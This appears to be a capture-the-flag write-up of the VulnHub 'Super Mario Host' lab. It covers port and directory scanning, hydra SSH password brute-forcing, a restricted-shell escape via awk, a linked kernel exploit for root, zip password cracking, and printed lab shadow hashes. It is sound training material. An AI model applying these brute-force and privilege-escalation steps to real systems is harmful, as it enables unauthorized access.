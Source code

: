 <!--Don't know if to keep the last paragraph because I was not able to find the final flag on the second machine-->

**Target: 10.0.0.37**  
**Difficulty: Medium**  
**Source: *https://www.vulnhub.com/entry/super-mario-host-101,186/***

## ***NMAP***

    $ nmap -sS -T4 -p- 10.0.0.37

    PORT     STATE SERVICE
    22/tcp   open  ssh                                                                                        
    8180/tcp open  unknown 

## ***PORT 8180***

![image](https://user-images.githubusercontent.com/76552238/159245535-1707036c-d491-466a-a956-afc8f6ff8e97.png)

Going to ***http://10.0.0.37:8180*** there is nothing interesting or useful, let's try to brute force the directories.

    $ gobuster dir -u http://10.0.0.37:8180/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

    /vhosts               (Status: 200) [Size: 1364]
    /server-status        (Status: 403) [Size: 215] 

### ***http://10.0.0.37:8180/vhosts:***

![image](https://user-images.githubusercontent.com/76552238/159245809-fe5492a5-7118-454a-af7c-7f56f2bbddbd.png)

<!-- ServerName mario.supermariohost.local
ServerAdmin webmaster@localhost
DocumentRoot /var/www/supermariohost
DirectoryIndex mario.php -->

The file stats that the Server name is 'mario.supermariohost.local', we can add it to our ***/etc/hosts*** file.

echo '10.0.0.37 mario.supermariohost.local' >> /etc/hosts

We can now go to ***mario.supermariohost.local:8180***. 

![image](https://user-images.githubusercontent.com/76552238/159246342-76fe3e86-2f0b-4d99-8c3a-d54a039692fb.png)

This time the site has some functionality but nothing interesting again.
Let's try to find hidden files.

    $ gobuster dir -u http://mario.supermariohost.local:8180/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html

/mario.php            (Status: 200) [Size: 7080]
/command.php          (Status: 200) [Size: 231]
/luigi.php            (Status: 200) [Size: 386]

![image](https://user-images.githubusercontent.com/76552238/159246686-0febada6-dfbb-4d6a-a228-09133cff5787.png)

Going to command.php, it says it finds users but all it does is spout out random output, so nothing interesting here.

Going to ***mario.supermariohost.local:8180/luigi.php*** it seems like Luigi left his brother a message.

![image](https://user-images.githubusercontent.com/76552238/159246824-a1b44d1e-00e6-40f3-b097-da5237fc24bb.png)

<!--Hey!! It'sa Luiiiggiii!!
My short brother doesn't know that I'm wandering around his host and messing around, he's new with computers!
Since I'm here I want to tell you more about myself...my brother is a nice person but we are in love for the same person: Princess Peach! I hope she will find out about this.
I Love Peach
Forever yours,
Luigi-->

This means we know about 3 possible users:

    mario
    luigi
    peach

Let's try to brute force SSH with those users.

    $ for user in mario luigi peach; do echo $user >> usernames.txt; done
    $ hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.37 -IV

luigi:luigi1

## ***SSH***

![image](https://user-images.githubusercontent.com/76552238/159247826-51949ce5-4702-4440-9126-2f21f2e6f0b3.png)

Logging in to the machine via SSH we are spawned with a restricted shell.

![image](https://user-images.githubusercontent.com/76552238/159247996-d7fb7065-d4bf-4cc9-9420-06b6364a5e24.png)


It seems like Mario has left Luigi a message.  

### ***message:***

    YOU BROTHER! YOU!! 
    I had to see it coming!!
    Not only you declare your love for Pricess Peach, my only love and reason of life (and lives, depending from the player), but you also mess with my server!
    So here you go, in a limited shell! Now you can't do much, MUHAUHAUHAUHAA

    Mario.

Using '?' we can see what commands we are allowed to run. 

    $ ?
    awk  cat  cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo  vim

'awk' is one of them.
Searching for awk privilege escalation, I found a post from GTFbins ***https://gtfobins.github.io/gtfobins/awk/***

![image](https://user-images.githubusercontent.com/76552238/159248444-a0f11090-473c-40e3-a9ef-c8d613b8cd76.png)

After playing around with machine I found that the kernel version is vulnerable to an exploit ---> ***https://www.exploit-db.com/exploits/37292***

    $ uname -a
    Linux supermariohost 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

![image](https://user-images.githubusercontent.com/76552238/159248977-44ac26d7-6a73-4d75-b15d-5568b5281bbb.png)

After downloading and executing the exploit on the victim machine, we are able to a root shell.

Going to /root we find a zip file that is holding the flag. 

![image](https://user-images.githubusercontent.com/76552238/159249137-70b6e298-36d9-491d-8184-989e6ff9581e.png)

But it requires a password. I downloaded it to my local machine and by using 'zip2john' I was able to find the password for the zip file.

![image](https://user-images.githubusercontent.com/76552238/159249408-cc0f8073-89d9-42b8-b553-042f38ac9a98.png)

<!-- password for zip file: ilovepeach -->

![image](https://user-images.githubusercontent.com/76552238/159249564-8e80e658-7990-4320-819c-370d8e3b7e7e.png)

Let's try to get all the passwords: 'mario' 'root'

    root:$6$ZmdseK46$FTvRqEZXdr3DCX2Vd6CXWmWAOJYIjcAI6XQathO3/wgvHEoyeP6DwL3NHZy903HXQ/F2uXiTXrhETX19/txbA1:17248:0:99999:7:::

    mario:$6$WG.vWiw8$OhoMhuAHSqPYTu1wCEWNc4xoUyX6U/TrLlK.xyhRKZB3SyCtxMDSoQ6vioNvpNOu78kQVTbwTcHPQMIDM2CSJ.:17248:0:99999:7:::

Turns out there was another machine that was downloaded on the network where we are able to connect via SSH and get the final flag, but unfortunately because I'm running the machine no a bridged connection I was not able to get.
